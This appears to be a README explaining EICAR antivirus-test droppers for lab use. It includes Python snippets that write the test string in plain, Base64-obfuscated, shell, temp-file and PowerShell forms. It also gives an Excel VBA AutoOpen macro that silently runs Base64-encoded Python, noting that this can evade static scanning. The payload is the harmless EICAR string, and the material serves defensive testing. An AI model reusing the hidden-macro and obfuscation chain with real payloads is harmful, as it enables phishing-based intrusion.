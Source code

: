 Breakdown of the EICAR Test Variants


🧱 1. Basic Python Dropper
``` python
EICAR_STRING = "X5O!...$H+H*"
with open("eicar.com", "w") as f:
    f.write(EICAR_STRING)
```

- What it does: Writes the known EICAR test string to disk (eicar.com).
- Purpose: Static AV signature test.
- Detection chance: 100% if AV is active.

---

🧅 2. Obfuscated Dropper
``` python
encoded = "Base64_EICAR_String"
decoded = base64.b64decode(encoded).decode('ascii')
with open("eicar_obf.com", "w") as f:
    f.write(decoded)
```
- What it does: Hides the EICAR string in Base64, decodes it at runtime.
- Purpose: Simulates basic payload encoding like malware often uses.
- Detection chance: Lower unless AV/EDR inspects script behavior.

---

🧠 3. In-Memory Execution
A. subprocess with echo
``` python
cmd = f'echo {eicar}'
subprocess.run(cmd, shell=True)
```
- What it does: Uses system shell to echo the EICAR string.
- Purpose: Mimics droppers that execute payloads in memory or with LOLBins (Living Off the Land Binaries).
- Detection chance: Medium to high, depending on AV script monitoring.

 ---

B. tempfile with auto-deletion 
``` python
with tempfile.NamedTemporaryFile(...) as tmp:
    tmp.write(eicar.encode())
os.remove(tmp.name)
```
- What it does: Creates a temp file, writes the string, deletes it quickly.
- Purpose: Simulates malware that cleans up after itself.
- Detection chance: Depends on AV reaction time.

---

C. PowerShell Injection
``` python
powershell_cmd = '$e="..."; [System.Text.Encoding]::ASCII.GetBytes($e) | Out-Null'
subprocess.run(["powershell", "-Command", powershell_cmd])
```
- What it does: Runs PowerShell to generate EICAR in memory.
- Purpose: Simulates real-world fileless malware or script-based attacks.
- Detection chance: Very high for good EDRs.

---

🪤 1. Excel VBA Macro → Python Dropper
- This simulates phishing or initial access where:
- A malicious Excel document has a macro (VBA script).
- The macro launches Python to execute a payload (e.g., an EICAR dropper).
``` vba
Sub AutoOpen()
    Dim pyCommand As String
    pyCommand = "cmd.exe /c python -c ""import base64;exec(base64.b64decode('aW1wb3J0IHdpcnRlOyB3aXJ0ZSgiWDVPKVB...==' ))"""
    
    Shell pyCommand, vbHide
End Sub
```
- What it does:
    - AutoOpen runs when the document is opened.
    - It constructs a command to run python -c <payload>.
    - The Python payload is Base64-encoded for obfuscation.
- What the Python does: Writes or generates the EICAR string.

---

📦 2. Embedded Python Payload
Here’s what the payload might do before it’s base64-encoded:
``` python
import base64

eicar = base64.b64decode("WDVPKVB...").decode()
with open("eicar.com", "w") as f:
    f.write(eicar)
```
Then you Base64-encode this whole Python snippet and embed it into the VBA macro.
You can encode it like this from your terminal:
``` bash
echo "import base64; eicar=base64.b64decode('...'); open('eicar.com','w').write(eicar)" | base64
```
Use the output in the VBA code.

---

🧠 Why This Is Useful (and Dangerous)
Feature	                        Use Case
Mimics real malware delivery	Macros calling external scripts is a classic attack chain.
Bypasses static detection	    If AV only scans static VBA, this may get missed.
Tests macro policies	        Useful for seeing if macro-blocking policies (e.g., in MS Defender) work.
Simulates phishing vectors	    This mimics malware in malicious attachments.

🛑 Precautions
- ⚠️ Never test this outside of isolated, controlled lab environments.
- ⚠️ Excel must have macros enabled — modern Office versions block unsigned macros by default.
- ✅ Use AppLocker, WDAC, and macro policies in enterprise environments to block this vector.




